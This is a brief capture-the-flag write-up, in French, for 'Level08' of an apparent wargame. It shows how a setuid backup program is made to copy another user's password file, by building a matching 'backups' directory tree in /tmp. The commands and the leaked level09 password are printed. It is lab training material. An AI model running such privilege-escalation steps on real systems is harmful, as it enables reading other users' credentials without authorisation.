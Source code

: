 # Level08

```shell
$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)

$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

On va aller dans `/tmp/` pour avoir un endroit ou l'on peut le créer

```shell
$ cd /tmp/

/tmp:$ mkdir -p backups/home/users/level09

/tmp:$ ~/level08 /home/users/level09/.pass

/tmp:$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
